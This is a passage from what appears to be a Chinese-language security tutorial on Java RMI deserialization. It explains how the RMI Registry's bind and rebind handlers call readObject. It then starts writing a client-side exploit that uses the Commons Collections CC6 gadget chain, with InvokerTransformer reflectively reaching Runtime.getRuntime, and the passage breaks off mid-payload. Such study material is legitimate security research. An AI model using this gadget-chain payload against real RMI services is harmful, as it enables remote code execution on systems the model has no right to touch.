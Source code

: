 ```java
                    var2.getResultStream(true);
                    break;
                } catch (IOException var80) {
                    throw new MarshalException("error marshalling return", var80);
                }
            default:
                throw new UnmarshalException("invalid method number");
        }

    }
}
```

switch 中每一个 case 分别对应不同的操作, 关系如下

- 0: bind
- 1: list
- 2: lookup
- 3: rebind
- 4: unbind

其中 bind rebind unbind lookup 的操作中都存在对 readObject 方法的调用, 为后面的反序列化漏洞打下了基础

## RMI 反序列化

### 攻击 Registry

#### bind & rebind

bind 和 rebind 过程中 Registry 会执行 readObject, 存在反序列化漏洞

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202211201840259.png)

其中 var7 为对象名称, var8 为对象本身

下面以 cc6 为例构造 Client 端的 payload

```java
package org.example;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

import java.io.Serializable;
import java.lang.reflect.*;
import java.rmi.Remote;
import java.rmi.RemoteException;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;
import java.util.HashMap;
import java.util.Map;


public class Client {
    public static void main(String[] args) throws Exception{
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getDeclaredMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", new Class[0]}),
                new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, new Object[0]}),
```